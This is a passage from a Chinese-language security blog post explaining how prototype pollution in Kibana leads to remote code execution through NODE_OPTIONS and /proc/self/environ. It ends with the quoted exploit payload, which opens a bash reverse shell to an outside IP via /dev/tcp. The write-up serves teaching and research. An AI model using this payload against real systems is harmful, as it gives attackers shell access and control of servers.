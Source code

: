 污染 prototype 只是第一步，下一步是要找出 script gadget，kibana 中的其中一段程式碼長這樣子：

``` js
  var env = options.env || process.env;
  var envPairs = [];

  for (var key in env) {
    const value = env[key];
    if (value !== undefined) {
      envPairs.push(`${key}=${value}`);
    }
  }
```

這一段會來拿構造環境變數，而這個環境變數會用來跑新的 node process，例如說 envPairs 如果是 `a=1` 的話，應該就會跑 `a=1 node xxx.js` 這個指令。

既然是跑 node.js，我們可以利用 `NODE_OPTIONS` 這個環境變數來偷偷引入檔案：

``` js
// a.js
console.log('a.js')

// b.js
console.log('b.js')

// 跑這個指令，用環境變數引入 a.js
NODE_OPTIONS="--require ./a.js" node b.js

// 輸出
a.js
b.js
```

所以，如果我們可以上傳一個 js 檔案，就可以搭配 prototype pollution 去執行這個檔案了。聽起來有點麻煩，有其他方法嗎？

有！有一個滿常用的技巧是有些檔案的內容其實是可控的，例如說 PHP 中的 session 內容就有機會控制，可參考這一篇：[透過 LFI 引入 PHP session 檔案觸發 RCE](https://kb.hitcon.org/post/165429468072/%E9%80%8F%E9%81%8E-lfi-%E5%BC%95%E5%85%A5-php-session-%E6%AA%94%E6%A1%88%E8%A7%B8%E7%99%BC-rce)，而另一個 Linux 系統中的檔案 `/proc/self/environ` 則是會有現在的 process 的所有環境變數。

如果我們建立一個環境變數叫做 `A=console.log(123)//`，`/proc/self/environ` 的內容就會變為：

``` js
A=console.log(123)//YARN_VERSION=1.1PWD=/userLANG=en_US.UTF-8....
```

就變成了合法的 JS 程式碼！

於是就可以利用這樣的方式去執行它：

``` js
NODE_OPTIONS="--require /proc/self/environ" A='console.log(1)//' node b.js
```

作者最後給出的 code 長這樣：

``` js
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
